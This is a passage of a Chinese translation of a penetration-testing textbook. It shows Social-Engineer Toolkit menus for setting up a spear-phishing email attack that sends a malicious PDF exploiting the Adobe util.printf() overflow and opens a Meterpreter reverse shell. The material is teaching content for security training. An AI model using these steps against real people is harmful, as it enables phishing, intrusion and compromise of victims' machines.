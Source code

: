 选择选项**`1`**来选择`Spear-Phishing Attack Vectors` ❶。Spear-Phishing Attack Vectors 菜单在示例 11-3 中显示。

示例 11-3. 选择`执行群发邮件攻击`

```
   1) Perform a Mass Email Attack ❶
   2) Create a FileFormat Payload ❷
   3) Create a Social-Engineering Template ❸
--*snip*--
  99) Return to Main Menu

set:phishing> **1**
```

第一个选项，`执行群发邮件攻击` ❶，允许我们将恶意文件发送到预定义的电子邮件地址或地址列表，并为所选的载荷设置一个 Metasploit 监听器。第二个选项，`创建一个文件格式载荷` ❷，允许我们创建一个带有 Metasploit 载荷的恶意文件。第三个选项允许我们创建一个新的电子邮件模板 ❸，用于 SET 攻击。

选择选项 **`1`** 来创建一个电子邮件攻击。（稍后我们将有机会选择发送单封邮件或群发邮件。）

### 选择载荷

现在选择一个载荷。载荷选项的选择可参考示例 11-4。

示例 11-4. 选择一项鱼叉式网络钓鱼攻击

```
           ********** PAYLOADS **********

   1) SET Custom Written DLL Hijacking Attack Vector (RAR, ZIP)
--*snip*--
  12) Adobe util.printf() Buffer Overflow ❶
--*snip*--
  20) MSCOMCTL ActiveX Buffer Overflow (ms12-027)

set:payloads> **12**
```

例如，要重新创建我们在第十章中的 PDF 攻击，选择选项 **`12`**：`Adobe util.printf() 缓冲区溢出` ❶。（SET 包含许多 Metasploit 攻击，以及其自身的特定攻击。）

系统会提示你选择一个恶意文件的载荷（参见示例 11-5）。

示例 11-5. 选择载荷

```
1) Windows Reverse TCP Shell              Spawn a command shell on victim and
                                            send back to attacker
2) Windows Meterpreter Reverse_TCP        Spawn a meterpreter shell on victim
                                            and send back to attacker ❶

--*snip*--

set:payloads> **2**
```

常见的载荷都在这里，包括 *windows/meterpreter/reverse_tcp*，它以更易读的形式显示为 `Windows Meterpreter Reverse_TCP` ❶。我们将选择此选项进行示例攻击。
